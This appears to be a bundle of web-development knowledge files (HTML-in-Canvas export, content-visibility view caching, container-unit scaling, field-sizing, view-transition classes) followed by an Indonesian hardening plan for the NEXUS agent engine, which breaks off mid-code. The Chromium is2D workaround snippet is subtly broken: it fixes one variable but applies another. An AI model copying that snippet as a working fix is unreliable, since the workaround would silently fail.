Web applications frequently need to capture and export rich HTML content—such as customized dashboards, styled documents, or interactive charts—as static images or video recordings. Historically, achieving this required bulky third-party libraries that manually parse DOM nodes and CSS properties to reconstruct a visual facsimile on a canvas. This approach is computationally expensive, error-prone, and frequently fails to support modern CSS layout features. With the HTML-in-Canvas API, developers can render real DOM elements directly into the canvas context. Because the browser's native rendering engine paints the HTML subtree with pixel-perfect accuracy, capturing the exact visual output as an image or video stream is highly efficient using built-in canvas methods like `toDataURL()`, `toBlob()`, or `captureStream()`.

## How to implement

1. Check if HTML-in-Canvas is supported in the browser:

```
if ('requestPaint' in HTMLCanvasElement.prototype) {
  // Use HTML in Canvas API
} else {
  // Use fallback strategy
}
```

2. Initialize the canvas to support rendering of descendant HTML elements by adding the `layoutsubtree` attribute to the `<canvas>` HTML element. Place your HTML content inside the `<canvas>` element with the `layoutsubtree` attribute:

```html
<canvas id="canvas" layoutsubtree>
  <div id="html-content"></div>
</canvas>
```

3. Scale your canvas grid to match the device scale factor to prevent blurriness:

```js
const observer = new ResizeObserver(([entry]) => {
  const dpc = entry.devicePixelContentBoxSize;
  canvas.width = dpc
    ? dpc[0].inlineSize
    : Math.round(entry.contentRect.width * window.devicePixelRatio);
  canvas.height = dpc
    ? dpc[0].blockSize
    : Math.round(entry.contentRect.height * window.devicePixelRatio);
});

const supportsDevicePixelContentBox =
  typeof ResizeObserverEntry !== "undefined" &&
  "devicePixelContentBoxSize" in ResizeObserverEntry.prototype;
const options = supportsDevicePixelContentBox
  ? { box: "device-pixel-content-box" }
  : {};
observer.observe(canvas, options);
```

4. Render the HTML content to the canvas inside a `canvas.onpaint` event handler:

- In 2D context, use the `drawElementImage` method:

```js
canvas.onpaint = () => {
  ctx.reset();
  // Draw the form element at x:0, y:0
  let transform = ctx.drawElementImage(form_element, 0, 0);
};
```

- In WebGL context, use the `texElementImage2D` method:

```js
canvas.onpaint = () => {
  if (gl.texElementImage2D) {
    gl.texElementImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      uiElement,
    );
  }
};
```

- In WebGPU context, use the `copyElementImageToTexture` method:

```js
canvas.onpaint = () => {
  root.device.queue.copyElementImageToTexture(valueElement, 512, 128, {
    texture: targetTexture,
  });
};
```


When using a `requestAnimationFrame` loop to render the scene, call `canvas.requestPaint()` within the loop to ensure that the HTML content is rendered to the canvas. Make sure you only re-render the canvas if there has been an update to the descendant HTML elements:

  ```js
  function render() {
    // Request to update the canvas
    canvas.requestPaint();
    requestAnimationFrame(render);
  }
  requestAnimationFrame(render);

  canvas.onpaint = (event) => {
    if (event.changedElements && event.changedElements.length > 0) {
      // Update the texture with drawElementImage, texElementImage2D, or copyElementImageToTexture, and update the CSS transform as shown in step 5
    }
  };
  ```

5. Update the CSS transform.

- For the 2D context case, apply the transform returned by the rendering call to the `style.transform` property:

```js
canvas.onpaint = () => {
  ctx.reset();
  // Draw the form element at x:0, y:0
  let transform = ctx.drawElementImage(form_element, 0, 0);

  // Sync the DOM location with the drawn location
  form_element.style.transform = transform.toString();
};
```

- For the 3D case with WebGL or WebGPU, the browser needs to map from the 3D coordinate space into the CSS coordinate space using a viewport transform. To facilitate this, do the following:
  - Convert WebGL MVP Matrix to DOM Matrix.
  - Normalize the HTML element. HTML elements are sized in pixels (for example, 200px wide). WebGL, however, usually treats objects as "unit squares", for example, ranging from 0 to 1. If you don't normalize, your 200px button will look 200 times larger.
  - Map to the canvas viewport. This step is the "re-scaling" phase: it stretches that unit-space math back out to match the actual pixel dimensions of your `<canvas>` element on the screen. It also flips the Y-axis, because in WebGL, up is positive, but in CSS, down is positive.
  - Calculate the final transform. Multiply the matrices in order: Viewport * MVP * Normalization. Combining them into one final transform produces a "map" that tells the browser exactly where that HTML element layer should sit to align with the 3D drawing.
  - Apply the transform to the HTML element. This moves the HTML element layer to sit directly on top of its rendered pixels. This ensures that when a user clicks a button or selects text, they are actually hitting the real HTML element.

  ```js
  if (canvas.getElementTransform) {
    // 1. Convert WebGL MVP Matrix to DOM Matrix
    const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

    // 2. Normalize the HTML element (Canvas Grid pixels -> WebGL Model Space)
    const dprX = canvas.width / canvas.clientWidth;
    const dprY = canvas.height / canvas.clientHeight;
    const gridWidth = targetHTMLElement.offsetWidth * dprX;
    const gridHeight = targetHTMLElement.offsetHeight * dprY;

    const toGLModel = new DOMMatrix()
      // Scale pixels to 1 unit, flip Y (as in CSS it points down, and in WebGL it points up)
      .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
      // Center the origin: (0,0) becomes (-width/2, -height/2) before scaling
      .translate(-gridWidth / 2, -gridHeight / 2);

    // 3. Map to the canvas viewport
    const clipToCanvasViewport = new DOMMatrix()
      // Move center (0,0) to center of canvas
      .translate(canvas.width / 2, canvas.height / 2)
      // Scale normalized clip (-1..1) to viewport size
      .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

    // 4. Multiply: (Clip -> Pixels) * (MVP) * (pixels -> unit square)
    const screenSpaceTransform = clipToCanvasViewport
      .multiply(mvpDOM)
      .multiply(toGLModel);

    // 5. Apply to the transform
    const computedTransform = canvas.getElementTransform(
      targetHTMLElement,
      screenSpaceTransform,
    );
    targetHTMLElement.style.transform = computedTransform.toString();
  }
  ```

6. [Troubleshooting] If the developer is experiencing a mismatch in the DOM logical layout in 3D even after applying the CSS transform from step 5, check if the developer is experiencing the issue in Chromium 148 or earlier. If that's the case, check if `transform.is2D` is correctly set to false for a 3D DOMMatrix. If not, re-initialize the DOMMatrix which corrects `is2D` to be false before applying the transform to the target HTML element. This issue is fixed in Chromium 149+, and if the developer is experiencing it in newer Chromium versions, the is2D value is not the cause:

```js
if (transform.is2D) {
  // Workaround for Chromium bug https://crbug.com/512171941
  // affecting Chrome versions under 149 where `transform.is2D`
  // is incorrectly true for a 3D DOMMatrix. The assignment
  // below re-initializes the DOMMatrix which corrects is2D to be false.
  transform = DOMMatrix.fromFloat64Array(transform.toFloat64Array());
}
targetHTMLElement.style.transform = computedTransform.toString();
```

7. Use regular canvas export methods like `toDataURL()`, `toBlob()`, or `captureStream()`. The exported data will include the rendered HTML content.

## Example code

```html
<body>
    <canvas id="canvas" style="width: 400px; height: 200px;" layoutsubtree>
        <input id="element">
    </canvas>
    
    <button id="download">Download Image</button>

    <script>
        const canvas = document.getElementById('canvas');
        const ctx = canvas.getContext('2d');
        const element = document.getElementById('element');
        const download = document.getElementById('download');

        canvas.onpaint = (event) => {
            ctx.reset();
            // Draw the element into the canvas
            const transform = ctx.drawElementImage(element, 10, 10);
            // Synchronize DOM position for hit testing (typing)
            element.style.transform = transform.toString();
        };

        download.onclick = () => {
            // Export the canvas content as an image
            const dataURL = canvas.toDataURL('image/png');
            const link = document.createElement('a');
            link.download = 'exported-canvas.png';
            link.href = dataURL;
            link.click();
        };

        // Re-initialize canvas size on screen resize
        const observer = new ResizeObserver(([entry]) => {
            const dpc = entry.devicePixelContentBoxSize;
            canvas.width = dpc ? dpc[0].inlineSize : Math.round(entry.contentRect.width * window.devicePixelRatio);
            canvas.height = dpc ? dpc[0].blockSize : Math.round(entry.contentRect.height * window.devicePixelRatio);
            canvas.requestPaint();
        });
        const supportsDevicePixelContentBox = 
            typeof ResizeObserverEntry !== 'undefined' && 
            'devicePixelContentBoxSize' in ResizeObserverEntry.prototype;
        const options = supportsDevicePixelContentBox ? { box: 'device-pixel-content-box' } : {};
        observer.observe(canvas, options);
    </script>
</body>
```

## Best Practices

- **MANDATORY**: Check browser support for the HTML-in-Canvas API before using it.
- **MANDATORY**: Always add the `layoutsubtree` attribute to the `<canvas>` element.
- **MANDATORY**: Use an `onpaint` event handler to render the HTML content to the canvas.
- **MANDATORY**: Use the `drawElementImage`, `texElementImage2D`, or `copyElementImageToTexture` methods to render the HTML content to the canvas.
- **MANDATORY**: Update the CSS transform of the HTML element to match the transform of the rendered content by setting the `style.transform` property of the HTML element.
- **MANDATORY**: Use `ResizeObserver` to observe the screen size and update the canvas size to match device pixels.
- **DO NOT** embed cross-origin content in a canvas, as it is not supported.
- **DO NOT** initialize `ResizeObserver` within the `onpaint` event handler, as it may lead to memory leaks.

## Fallback strategies

HTML in canvas is not natively supported by any major browser yet.

The HTML-in-Canvas API is not currently supported in all modern browsers, thus a fallback strategy is typically required. However, given the improved performance benefits of this API, HTML-in-Canvas should be used if the browser supports it.

For the use case where HTML content needs to be exported from a canvas, use libraries like `html2canvas`, `dom-to-image`, or `snapdom`. 

To capture HTML interactions frame by frame, for example, for streaming, capture DOM mutations using libraries like `rrweb`. 

Alternatively, implement a warning that HTML media export is not supported in the browser because it doesn't support HTML-in-Canvas.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_FASTER-SPA-VIEW-TRANSITIONS.MD

# Faster SPA View Transitions via State Caching
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Enable instant navigation between views in a Single-Page Application (SPA) by caching the rendered state of inactive views instead of destroying them.

## Overview

Traditionally, when a user navigates between tabs or views in an SPA, developers either destroy the old view or hide it using `display: none`. Both approaches require the browser to recreate or recalculate the full layout and paint when the user returns to that view.

By using `content-visibility: hidden` on inactive views, the browser removes the element’s contents from the layout flow and stops painting it, but *retains* its cached rendering state in memory. When the user switches back, the view restores nearly instantly.

### The CPU vs. RAM Trade-off

While this approach offers massive performance benefits, it introduces a specific trade-off that you must manage carefully:

*   **CPU Savings:** Massive. The browser completely skips layout and paint passes for hidden views.
*   **RAM Cost:** High. The browser keeps all DOM nodes, event listeners, and state for the hidden view in memory.

#### When This Trade-off Becomes Dangerous

*   **DO** use this strategy for simple applications with a small, predictable number of views (e.g., a 3-to-5 tabbed interface).
*   **DO NOT** unconditionally cache every view in highly dynamic applications that generate dozens of unique reports or use infinite dynamic routes. Doing so will eventually cause severe memory bloat and may crash the browser on low-end devices.
*   **MANDATORY:** If your application is highly dynamic, you MUST implement an **eviction strategy** (like a Least Recently Used cache) to destroy old views when a memory threshold is reached.

## Implementation

### 1. Configure View Containers

Set `content-visibility: hidden` on views that are not currently active.

> **Note:** The `content-visibility: hidden` property hides an element's *contents*, but the element itself remains styled and visible. Its background, borders, padding, and margins will still be painted by the browser.

```css
.spa-view.inactive {
  /* MANDATORY: Use hidden to cache the rendering state of inactive views */
  content-visibility: hidden;
  
  /* Optional: Prevent hidden views from taking up physical space in layout flow */
  position: absolute;
}
```

### 2. Manage Focus

When swapping views, ensure you manage keyboard focus correctly to preserve accessibility.

```javascript
function switchToView(viewId) {
  // Hide all views
  document.querySelectorAll('.spa-view').forEach(view => {
    view.classList.add('inactive');
    view.setAttribute('aria-hidden', 'true');
  });
  
  // Show the target view
  const activeView = document.getElementById(viewId);
  activeView.classList.remove('inactive');
  activeView.setAttribute('aria-hidden', 'false');
  
  // MANDATORY: Move focus to the new view to ensure a logical tab-order
  activeView.focus();
}
```

### Fallback strategies

Baseline status for content-visibility: Newly available. It's been Baseline since 2025-09-15.
Supported by: Chrome 108 (Nov 2022), Edge 108 (Dec 2022), Firefox 130 (Sep 2024), and Safari 26 (Sep 2025).

The `content-visibility` property degrades gracefully. In browsers that do not support it:
*   The property is ignored.
*   To prevent fallback browsers from rendering all views simultaneously, you should provide a fallback to `display: none` in your CSS:

```css
@supports not (content-visibility: hidden) {
  .spa-view.inactive {
    display: none;
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance]

### 📘 KNOWLEDGE: NEXUS_FLUID-SCALING.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Overview

Fluid scaling allows components to adjust their internal proportions (like font sizes and spacing) based on their current dimensions. This creates a more cohesive design than jumping between fixed breakpoints.

While fluid scaling was historically achieved using viewport units (scaling based on the screen size), modern container query units allow components to scale relative to their parent container instead. This ensures components look good regardless of where they are placed in a layout, promoting better component isolation and reusability.

## Implementation

### 1. Define a container

To use container query units, you must first define a containment context on a parent element.

```css
.component-wrapper {
  /* Define the container type. Use 'inline-size' for width-based scaling. */
  /* You can also use 'size' for both width and height, but it requires explicit sizing. */
  container-type: inline-size;
  
  /* Optional: Name the container for specific targeting */
  container-name: fluid-card;
}
```

### 2. Use container query units

Use container query units (`cqi`, `cqb`, etc.) to set sizes relative to the container's dimensions.

*   `cqi`: 1% of the container's inline size (width in horizontal writing modes).
*   `cqb`: 1% of the container's block size (height in horizontal writing modes).

**Note**: Container units can be used directly on any property without needing an `@container` query rule. They automatically resolve based on the nearest ancestor with a defined `container-type`.

```css
.component-title {
  /* Scale font size based on container width */
  /* 10cqi means 10% of the container's width */
  font-size: 10cqi;
}

.component-body {
  /* Scale padding based on container width */
  padding: 5cqi;
}
```

### 3. Constrain values with `clamp()`

To prevent sizes from becoming too small or too large, use the CSS `clamp()` function. This impacts the user's ability to zoom or adjust their base font size. To ensure text meets accessibility guidelines, the maximum size must not be more than 2.5 times the minimum size.

```css
.component-title {
  /* Clamp font size between 1rem and 2.5rem, scaling with 5% of container width */
  font-size: clamp(1rem, 5cqi, 2.5rem);
}
```

### Fallback strategies

Baseline status for Container queries: Widely available. It's been Baseline since 2023-02-14.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), Firefox 110 (Feb 2023), and Safari 16 (Sep 2022).

If container queries are not supported by the browser, you should provide a fallback using viewport units or standard media queries.

```css
.component-title {
  /* Fallback for browsers that do not support container units */
  font-size: clamp(1rem, 5vw, 2.5rem);
}

@supports (font-size: 1cqi) {
  .component-title {
    /* Use container units where supported */
    font-size: clamp(1rem, 5cqi, 2.5rem);
  }
}
```

This fallback ensures that the text still scales, but it will be based on the screen width rather than the component's width. This should be tested to verify it works in your use case.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_FORM-FIELDS-AUTOMATICALLY-FIT-CONTENTS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

By default, form controls like `<input>`, `<textarea>`, and `<select>` have fixed dimensions. Their sizes remain constant, regardless of the amount of content the user enters or selects.

To allow these controls to automatically shrink or grow to fit their content (including placeholders), use the `field-sizing: content` CSS property.

### Auto-sizing form controls

Setting `field-sizing: content` on inputs, selects, or textareas allows them to resize dynamically as the user types or selects options. However, you must account for inherited styling, layout defaults, and minimum/maximum constraints to ensure a robust user experience.

To prevent layout issues, it is recommended to set both `min-inline-size` (or `min-width`) and `max-inline-size` (or `max-width`) alongside `field-sizing: content` on text inputs. A minimum size prevents the input from collapsing to a width of zero when empty (making it unclickable), and a maximum size ensures it doesn't expand indefinitely and break the page layout.

For textareas, allowing horizontal auto-sizing can cause a jarring UX (e.g., a textarea with a long placeholder will abruptly shrink horizontally when the user types a single character). To prevent this, apply an explicit width (like `width: 100%`) to the textarea. This forces the textarea to maintain a stable horizontal width while still auto-sizing vertically as content wraps.

It is recommended to set a `max-inline-size` (or `max-width`) on `<select>` elements using `field-sizing: content` to ensure that extremely long selected options do not break the page layout.

```css
/* Applies horizontal auto-sizing to inputs */
input {
  /* Instructs the element to size itself to fit its content */
  field-sizing: content;

  /* Reset explicit width if inherited from global styles */
  width: auto;

  /* Prevents the input from collapsing and disappearing when empty */
  min-inline-size: 15ch;

  /* Prevents infinite horizontal growth */
  max-inline-size: 50ch;
}

textarea {
  /* Instructs the element to size itself to fit its content */
  field-sizing: content;

  /* Reset explicit height if inherited from global styles */
  height: auto;

  /* Use a fixed width to prevent jarring horizontal shifts when replacing a long placeholder */
  width: 50ch; /* or 100% depending on your layout */

  /* Sets a reasonable minimum height (e.g., 3 lines) for empty textareas */
  min-block-size: 3lh;

  /* Prevents infinite vertical growth. Once a textarea hits this */
  /* height, it will stop growing and show a vertical scrollbar. */
  max-block-size: 10lh;
}

select {
  /* Sizes the select element to fit the active option only */
  field-sizing: content;

  /* Prevents the dropdown from expanding infinitely and breaking the layout */
  max-inline-size: 50ch;
}
```

IMPORTANT: Explicit `width` and `height` properties override `field-sizing: content` on all form controls. If your project's global CSS sets inputs, selects, or textareas to `width: 100%`, you must explicitly reset them to `width: auto` (or `width: fit-content`) on the elements using `field-sizing: content` for auto-sizing to work. Conversely, you should explicitly set `height: auto` on textareas if a fixed height was previously set globally.

IMPORTANT: Grid and Flexbox layouts often implicitly stretch their children to fill available space. If any form control using `field-sizing: content` refuses to shrink, check its container's alignment properties and apply `align-self: start` or `justify-self: start` to the form control to override the stretching.

### Fallback strategies

field-sizing has limited availability.
Supported by: Chrome 123 (Mar 2024), Edge 123 (Mar 2024), and Safari 26.2 (Dec 2025).
Unsupported in: Firefox.

`field-sizing` should be treated as a progressive enhancement. In browsers that do not support the property, form controls gracefully degrade back to their default, fixed sizing behavior. Users will simply experience standard scrolling for overflowing content inside fixed-size inputs and textareas.

If dynamically growing fields are absolutely required for older browsers, you must use feature detection and a complex workaround. The most robust fallback for textareas uses a CSS Grid trick where a hidden pseudo-element mirrors the user's input in real-time, forcing the grid container (and the textarea inside it) to expand.

```html
<!-- The textarea is wrapped in a container that will mirror its value -->
<div class="growable-textarea" data-replicated-value="">
  <textarea></textarea>
</div>
```

```javascript
// Only attach the fallback event listeners if field-sizing is unsupported
if (!CSS.supports('field-sizing', 'content')) {
  document.querySelectorAll('.growable-textarea > textarea').forEach(textarea => {
    textarea.addEventListener('input', () => {
      textarea.parentNode.dataset.replicatedValue = textarea.value;
    });
  });
}
```

```css
/* Only apply the fallback if field-sizing is NOT supported */
@supports not (field-sizing: content) {
  .growable-textarea {
    display: grid;
  }

  /* The pseudo-element and textarea must share the exact same cell, font, and padding */
  .growable-textarea::after,
  .growable-textarea > textarea {
    grid-area: 1 / 1 / 2 / 2;
    font: inherit;
    padding: 0.5rem;
    border: 1px solid #999;
  }

  /* The pseudo-element renders the copied text invisibly to stretch the grid */
  .growable-textarea::after {
    /* The space is necessary for trailing empty lines to be rendered */
    content: attr(data-replicated-value) " ";
    white-space: pre-wrap;
    visibility: hidden;
  }

  .growable-textarea > textarea {
    resize: none;
    overflow: hidden;
  }
}
```

Given the complexity of duplicating styles and synchronizing state across DOM nodes for every form control, relying on the default fallback behavior of fixed inputs is the recommended approach for most applications unless dynamic sizing is critical to the user experience.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_GROUP-ELEMENT-TRANSITIONS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

As items are added or removed from a list, or rearranged, transitions can help users maintain context. View transitions provide a way to transition between two states of an element by giving the element a unique `view-transition-name`. When multiple elements on a page share the same transition behavior, `view-transition-class` allows you to define that logic once in CSS rather than repeating it for every unique `view-transition-name`. This keeps your stylesheets maintainable while ensuring consistent animations across a group of elements.

### Implementation steps

1. **Assign unique names and a shared class**

Each element that needs to be tracked individually during a transition must have a unique `view-transition-name`.

```html
<!-- Mandatory: Each element must have a unique view-transition-name -->
<li style="view-transition-name: item-1" class="item">Item 1</li>
<li style="view-transition-name: item-2" class="item">Item 2</li>
```

To apply shared styles, also assign a `view-transition-class`.

```css
.item {
  view-transition-class: list-item;
}
```

2. **Define the shared transition logic**
   
Use the `::view-transition-group()` pseudo-element with the class selector to apply styles to all members of that group.

```css
/* Targets any view transition group that has the 'list-item' class */
::view-transition-group(.list-item) {
  animation-duration: 0.5s;
  animation-timing-function: ease-in-out;
}

/* Handle accessibility by respecting motion preferences */
@media (prefers-reduced-motion: reduce) {
  /* Disable all group transitions, including the default `root` group. */
  ::view-transition-group(*),
  ::view-transition-old(*),
  ::view-transition-new(*) {
    animation: none !important;
  }
}
```

3. **Optional: Define entry and exit animations**

Use the `:only-child` selector to add specific transitions to the elements that are added or removed. `::view-transition-new()` and `::view-transition-old()` pseudo-elements are children of a `::view-transition-image-pair()` pseudo-element, so we can determine it is an added or removed element if it is the only child.

```css
/* A `::view-transition-new()` element is the only child if it wasn't present before the view transition, so it is an added element. */
::view-transition-new(.list-item):only-child {
  animation-name: slide-in;
  /* Specify an animation duration if you want something different than the UA default of 0.5s */
  animation-duration: 1s;
}
/* A `::view-transition-old()` element is the only child if it isn't present after the view transition, so it is a removed element. */
::view-transition-old(.list-item):only-child {
  animation-name: slide-out;
  /* Specify an animation duration if you want something different than the UA default of 0.5s */
  animation-duration: 1s;
}

@keyframes slide-in {
  from {
    translate: -100vw 0;
  }
}
@keyframes slide-out {
  to {
    translate: -100vw 0;
  }
}
```

4. **Trigger the transition**

Wrap the DOM update in `document.startViewTransition()`. The browser will capture the old state, perform the update, and then animate to the new state.

```javascript
function updateList(newData) {
  document.startViewTransition(() => {
    // All DOM changes inside this callback will be transitioned
    render(newData);
  });
}
```

5. **Maintain interactivity of non-transitioned elements**

View transitions work by overlaying snapshots of the DOM elements, and then transitioning the snapshots. This means that during the transition, elements are not interactive. If there are interactive elements that are not transitioned, you can make them interactive by disabling touch events on the view transitions.

```css
::view-transition {
  /* Non-transitioned elements below the view transitions remain interactive */
  pointer-events: none;
}
```

In addition, by default, the `:root` element has a view transition named `root`, which enables default full-page transitions. If there are no changes to the root element, this will be a transition between two identical snapshots, which are not interactive. Because we are only transitioning specific elements, and not the entire screen, we can disable the `root` transition. 

```css
:root {
  /* Disable the root transition because we are only transitioning specific elements. */
  view-transition-name: none;
}
```

### Fallback strategies

Baseline status for view-transition-class: Newly available. It's been Baseline since 2025-10-14.
Supported by: Chrome 125 (May 2024), Edge 125 (May 2024), Firefox 144 (Oct 2025), and Safari 18.2 (Dec 2024).

View Transitions are a progressive enhancement. If the browser does not support `document.startViewTransition`, the DOM update should still occur immediately, providing a functional but non-animated experience.

```javascript
if (document.startViewTransition) {
  document.startViewTransition(() => updateDOM());
} else {
  // Fallback: Perform the update without animation
  updateDOM();
}
```

For CSS, browsers that do not recognize `view-transition-class` or the `::view-transition-group()` class selector will simply ignore those rules, and no animation will be applied.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_HARDENING_PLAN.MD

# NEXUS — Post-Stabilization Hardening Plan
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Dari Stable → Robust → Autonomous-Ready

> **Source of Truth**: Dibuat dari 4x loop scanning terhadap kondisi aktual kode  
> **Target**: Deterministic, Observable, Resilient System  
> **Prinsip**: Stability > Intelligence. Jika tidak bisa di-debug, tidak bisa di-scale.

---

## 📊 Gap Analysis (Kondisi Aktual vs Target)

| Komponen | Ada? | Gap Kritis |
|---|---|---|
| `TaskProtocol.js` | ✅ | Tidak ada `trace_id` / `correlation_id` |
| `Logger.js` | ✅ | Log tidak terhubung antar siklus, tidak ada `trace_id` |
| `MemoryGovernor.js` | ✅ | Tidak ada locking, tidak ada rollback mechanism |
| `EventBus.js` | ✅ | Tidak ada event audit log, tidak ada duplicate detection |
| `Orchestrator.js` | ✅ | Tidak ada retry logic, tidak ada fallback, tidak ada error type |
| `SandboxExecutor.js` | ✅ | Tidak dipakai di `audit()` — scanner masih dipanggil langsung |
| `Contract.js` | ✅ | Tidak ada structured error schema |
| `NexusEngine.audit()` | ✅ | Scanner bypass EventBus — direct `require()` + `scanner.scan()` |
| `NexusEngine.execute()` | ✅ | Error hanya `continue`, tidak ada retry/fallback/error classification |
| Performance Profiling | ⚠️ | Ada di level siklus, belum ada di per-agent |
| Stress/Chaos Testing | ❌ | Tidak ada sama sekali |

---

## 🗺️ Fase Hardening (Berurutan)

---

### 🔴 PHASE H1: Observability Foundation
**Priority**: CRITICAL — Harus dikerjakan pertama  
**Target dokumen hardening**: §3.5

#### H1.1 — Tambah `trace_id` dan `correlation_id`

**File**: `agent/core/TaskProtocol.js`  
Tambahkan field:
```js
this.trace_id = `TRACE-${Date.now()}-${Math.random().toString(36).slice(2, 7)}`;
this.correlation_id = options.correlation_id || this.trace_id; // link ke siklus parent
```

**File**: `agent/core/Logger.js`  
Update signature `log()` untuk menerima `trace_id`:
```js
async log(category, level, agent, task_id, event, message, duration_ms = 0, metadata = {}, trace_id = 'N/A')
```
Dan masukkan `trace_id` ke dalam `logEntry`.

#### H1.2 — Cycle-Level Correlation

**File**: `agent/core/NexusEngine.js`  
Di awal `runCycle()`, generate satu `cycleCorrelationId`:
```js
const cycleCorrelationId = `CORR-${Date.now()}`;
```
Teruskan ID ini ke setiap pemanggilan `this.logger.log()` sebagai `trace_id`.

**Definition of Done H1**:  
- [ ] Setiap log entry memiliki `trace_id`  
- [ ] Seluruh log dalam satu siklus audit→plan→execute memiliki `correlation_id` yang sama  

---

### 🔴 PHASE H2: Failure Handling (Retry + Structured Error)
**Priority**: CRITICAL  
**Target dokumen hardening**: §3.4

#### H2.1 — Structured Error Schema di `Contract.js`

Tambahkan class `NexusErrorPayload`:
```js
class NexusErrorPayload {
    constructor(type, message, retryable = false, agent = 'unknown') {
        this.status = 'error';
        this.type = type; // e.g. 'MEMORY_CONFLICT', 'SCANNER_TIMEOUT'
        this.message = message;
        this.retryable = retryable;
        this.agent = agent;
        this.timestamp = new Date().toISOString();
    }
}
```

#### H2.2 — Retry Logic di `Orchestrator.js`

Ganti blok `catch` dengan mekanisme retry:
```js
const MAX_RETRY = 3;
let attempt = 0;
while (attempt < MAX_RETRY) {
    try {
        const result = await this.sandbox.execute(...);
        // success path
        break;
    } catch (err) {
        attempt++;
        const errPayload = new NexusErrorPayload('AGENT_FAILURE', err.message, attempt < MAX_RETRY, payload.agent);
        await this.logger.log('errors', 'WARNING', 'Orchestrator', task.task_id, 'RETRY', `Retry ${attempt}/${MAX_RETRY}`);
        if (attempt >= MAX_RETRY) {
            task.status = 'failed';
            EventBus.publish('TASK_FAILED', { task_id: task.task_id, error: errPayload });
        }
    }
}
```

**Definition of Done H2**:  
- [ ] Setiap kegagalan punya `type`, `retryable`, `agent`  
- [ ] Orchestrator mencoba ulang max 3x sebelum menyerah  
- [ ] Event `TASK_FAILED` dipublish agar komponen lain bisa bereaksi  

---

### 🔴 PHASE H3: Memory Integrity (Lock + Rollback)
**Priority**: CRITICAL  
**Target dokumen hardening**: §3.3

#### H3.1 — File-Based Soft Locking di `MemoryGovernor.js`

Tambahkan metode `acquireLock()` dan `releaseLock()`:
```js
async acquireLock(filename, timeoutMs = 5000) {
    const lockFile = path.join(this.memoryPath, `${filename}.lock`);
    const start = Date.now();
    while (await fs.pathExists(lockFile)) {
        if (Date.now() - start > timeoutMs) {
            throw new Error(`MemoryGovernor: Lock timeout on ${filename}`);
        }
        await new Promise(r => setTimeout(r, 100)); // poll every 100ms
    }
    await fs.writeJson(lockFile, { locked_at: new Date().toISOString() });
}

async releaseLock(filename) {
    const lockFile = path.join(this.memoryPath, `${filename}.lock`);
    await fs.remove(lockFile);
}
```

Update `validateAndStore()` untuk menggunakan lock:
```js
await this.acquireLock(filename);
try {
    // ... existing write logic ...
} finally {
    await this.releaseLock(filename);
}
```

#### H3.2 — Rollback Mechanism

Sebelum menulis file baru, simpan versi sebelumnya ke `memory/archived/`:
```js
if (await fs.pathExists(outputPath)) {
    const backupPath = path.join(this.memoryPath, 'archived', `${filename}.v${version - 1}.bak.json`);
    await fs.copy(outputPath, backupPath);
}
```

**Definition of Done H3**:  
- [ ] Tidak ada dua agent bisa menulis file memori yang sama secara bersamaan  
- [ ] Setiap penulisan memori baru memiliki backup versi sebelumnya di `memory/archived/`  

---

### 🟡 PHASE H4: Plugin Safety via SandboxExecutor
**Priority**: HIGH  
**Target dokumen hardening**: §3.8

#### H4.1 — Gunakan SandboxExecutor di `NexusEngine.audit()`

Saat ini scanner dipanggil langsung. Ini harus diganti:

**Sebelum (bermasalah):**
```js
const scanner = require(scannerPath);
if (scanner.scan) {
    specFindings = await scanner.scan(targetPath);
}
```

**Sesudah (via Sandbox):**
```js
// Di constructor, instansiasi sandbox
this.sandbox = new SandboxExecutor();

// Di audit()
specFindings = await this.sandbox.execute(scannerPath, { targetPath }, { timeout: 15000 });
```

#### H4.2 — Permission Validation di `SandboxExecutor.js`

Tambahkan pengecekan terhadap `manifest.json`:
```js
const manifest = require('../../tools/scanners/manifest.json');
const pluginMeta = manifest.scanners.find(s => scannerPath.includes(s.entrypoint));
if (!pluginMeta) throw new Error(`Plugin ${scannerPath} not registered in manifest.`);
```

**Definition of Done H4**:  
- [ ] Semua scanner dieksekusi via `SandboxExecutor` dengan timeout  
- [ ] Plugin yang tidak terdaftar di `manifest.json` ditolak  

---

### 🟡 PHASE H5: EventBus Validation
**Priority**: HIGH  
**Target dokumen hardening**: §3.7

#### H5.1 — Event Audit Log di `EventBus.js`

Update `publish()` untuk mencatat setiap event:
```js
publish(event, payload) {
    const entry = { event, timestamp: new Date().toISOString(), payload_keys: Object.keys(payload || {}) };
    this._auditLog = this._auditLog || [];
    this._auditLog.push(entry);
    this.emit(event, payload);
}

getAuditLog() { return this._auditLog || []; }
clearAuditLog() { this._auditLog = []; }
```

#### H5.2 — Duplicate Event Detection

```js
publish(event, payload) {
    const eventKey = `${event}-${JSON.stringify(payload).slice(0, 50)}`;
    if (this._recentEvents && this._recentEvents.has(eventKey)) return; // skip duplicate
    this._recentEvents = this._recentEvents || new Set();
    this._recentEvents.add(eventKey);
    setTimeout(() => this._recentEvents.delete(eventKey), 1000); // clear after 1s
    this.emit(event, payload);
}
```

**Definition of Done H5**:  
- [ ] Setiap event tercatat di audit log  
- [ ] Event duplikat dalam window 1 detik diabaikan  

---

### 🟢 PHASE H6: Performance Profiling Per-Agent
**Priority**: MEDIUM  
**Target dokumen hardening**: §3.6

**File**: `agent/core/NexusEngine.js` — di dalam loop scanner `auditPromises.map()`

```js
const agentStart = Date.now();
specFindings = await this.sandbox.execute(...);
const agentDuration = Date.now() - agentStart;
this.metrics[spec.id] = { duration_ms: agentDuration, findings: specFindings.length };
